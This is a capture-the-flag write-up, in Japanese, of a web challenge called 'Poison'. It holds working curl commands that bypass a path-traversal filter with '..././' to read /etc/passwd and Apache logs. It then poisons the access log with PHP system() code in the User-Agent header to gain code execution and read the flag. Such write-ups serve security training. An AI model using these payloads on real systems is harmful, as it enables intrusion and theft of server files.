 # Poison:Web:682pts
Bypass some stuff and get the flag!  
[Click here](https://ch4.sbug.se/)  

# Solution
ブラウザでアクセスすると、エラーが発生する。  
curlしてみる。  
```bash
$ curl https://ch4.sbug.se/
<iframe src="https://64.225.23.248" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">
    Your browser doesn't support iframes
</iframe>
```
よくわからないがターゲットは`https://64.225.23.248`のようだ。  
httpsできないのでhttpでつなぐと謎のサイトだった。  
[site.png](site/site.png)  
`Where is the flag?`には`http://64.225.23.248/?file=inc.txt`がリンクされている。  
任意ファイルが読み込めそうだ。  
`../../../../../etc/passwd`を読み込むと以下のようなエラーが発生した。  
```bash
$ curl http://64.225.23.248/?file=../../../../../etc/passwd
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br><br />
<b>Warning</b>:  include(inc/etc/passwd): failed to open stream: No such file or directory in <b>/var/www/html/index.php</b> on line <b>29</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'inc/etc/passwd' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/index.php</b> on line <b>29</b><br />

    <!-- /someflagfile  --!>
~~~
```
`inc`以下にパスが接続され、`../`は削除されるようだ。  
`..././`によるバイパスを試みる。  
```bash
$ curl http://64.225.23.248/?file=..././..././..././..././..././etc/passwd
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
Debian-exim:x:101:101::/var/spool/exim4:/bin/false

    <!-- /someflagfile  --!>
~~~
```
突破できたが、`/someflagfile`とある通り、ファイル名が不明である(ルートにあるようだ)。  
戯れに`http://64.225.23.248/admin`などにアクセスしていると、apacheであることがわかる。  
```bash
$ curl http://64.225.23.248/admin
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /admin was not found on this server.</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 64.225.23.248 Port 80</address>
</body></html>
```
アクセスログをヒントを求めて見てみる。  
```bash
$ curl http://64.225.23.248/?file=..././..././..././..././..././var/log/apache2/access.log
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br>- - [27/Nov/2021:08:28:27 +0000] "GET /?file=..././..././..././..././..././var/log/apache2/access.log HTTP/1.1" 200 791 "-" "curl/7.68.0"
- - [27/Nov/2021:08:28:36 +0000] "GET /?file=..././..././..././..././..././var/log/apache2/access.log HTTP/1.1" 200 929 "-" "curl/7.68.0"
- - [27/Nov/2021:08:28:40 +0000] "GET /?file=..././..././..././..././..././var/log/apache2/access.log HTTP/1.1" 200 1067 "-" "curl/7.68.0"

    <!-- /someflagfile  --!>
~~~
```
複数回にわたる自身のアクセスログが、User-Agentとともに残っていた。  
ここでUser-Agentにphpコードを入力し、ログから任意コードを実行する手法を思いつく。  
```bash
$ curl http://64.225.23.248/satoki -H "User-Agent: <?php system('ls /'); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
~~~
$ curl http://64.225.23.248/?file=..././..././..././..././..././var/log/apache2/access.log
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br>- - [27/Nov/2021:08:34:24 +0000] "GET /satoki HTTP/1.1" 404 444 "-" "bin
boot
dev
etc
getyourfl4g
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
"

    <!-- /someflagfile  --!>
~~~
```
任意コード実行が可能であった。  
`getyourfl4g`なる不審なファイルがあるので、catで読みだしてやる。  
```bash
$ curl http://64.225.23.248/satoki -H "User-Agent: <?php system('cat /getyourfl4g'); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
~~~
$ curl http://64.225.23.248/?file=..././..././..././..././..././var/log/apache2/access.log
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br>- - [27/Nov/2021:08:35:19 +0000] "GET /satoki HTTP/1.1" 404 444 "-" "SBCTF{You_Pois0ned_Me}
"

    <!-- /someflagfile  --!>
~~~
```

## SBCTF{You_Pois0ned_Me}